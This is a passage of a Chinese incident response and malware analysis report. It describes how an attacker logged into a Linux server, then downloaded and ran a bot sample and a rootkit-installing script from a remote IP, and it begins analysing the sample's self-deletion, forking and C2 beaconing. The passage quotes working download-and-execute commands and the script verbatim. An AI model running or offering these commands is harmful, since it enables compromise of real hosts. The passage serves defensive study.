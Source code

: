     ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCcuHEVMRqY/Co/RJ5o5RTZmpl6sZ7U6w39WAvM7Scl7nGvr5mS4MRRIDaoAZpw7sPjmBHz2HwvAPYGCekcIVk8Xzc3p31v79fWeLXXyxts0jFZ8YZhYMZiugOgCKvRIs63DFf1gFoM/OHUyDHosi8E6BOi7ANqupScN8cIxDGsXMFr4EbQn4DoFeRTKLg5fHL9qGamaXXZRECkWHmjFYUZGjgeAiSYdZR49X36jQ6nuFBM18cEZe5ZkxbbtubnbAOMrB52tQX4RrOqmuWVE/Z0uCOBlbbG+9sKyY9wyp/aHLnRiyC8GBvbrZqQmyn9Yu1zBp3tY8Tt6DWmo6BLZV4/ [[email protected]](/cdn-cgi/l/email-protection)
    

于11点58分ip `104.219.234.226`登陆了系统并执行了以下命令

    
    
    #!bash
    curl http://85.118.98.197:61050/cyka/blyat/x.x86 > /tmp/ok; wget http://85.118.98.197:61050/cyka/blyat/x.x86 -O /tmp/ok; chmod 777 /tmp/ok; /tmp/ok
    

该命令通过一个格鲁吉亚的ip `85.118.98.197`下载了样本x.x86 写入`/tmp/ok` 并执行

样本x.x86细节见 0x02

于11号早上10点10分 攻击者通过远程控制程序在 http://85.118.98.197:61050/root.sh 下载了root.sh脚本并执行

    
    
    #!bash
    #!/bin/sh
    
    mkdir /tmp/ok/;
    cd /tmp/ok/
    curl http://85.118.98.197:61050/k.tgz > /tmp/ok/k.tgz
    wget http://85.118.98.197:61050/k.tgz -O /tmp/ok/k.tgz
    
    tar -xzvf k.tgz
    bash vishnu.sh
    
    curl http://85.118.98.197:61050/done.txt > /dev/null
    wget http://85.118.98.197:61050/done.txt -O /dev/null
    

# 0x02 样本分析

* * *

**x.x86样本分析**

样本大小仅有23k，未经加壳保护，功能多样，并没有很严格的自我保护，初步推断起用途只是初步筛选存在漏洞的主机，同时为下一步植入rootkit做准备。

样本首先遍历文件句柄，执行close操作，确保接下来可以成功删除自身。

![enter image descriptionhere](http://static.wooyun.org//drops/20151113/2015111310252921990.png)

紧接着进行两次fork，避免出现意外而成为僵尸进程。 完成fork后紧接着调用unlink删除自身。

![enter image descriptionhere](http://static.wooyun.org//drops/20151113/2015111310252967995.png)

执行完以上的初始化任务后，样本会尝试连接`8.8.8.8`的53端口验证网络是否通畅。如果可以连接，紧接着会与`37.220.109.6`的53端口建立tcp连接，开始与c2服务器互发心跳包，等待服务器指令。

其中c2服务器IP为硬编码：
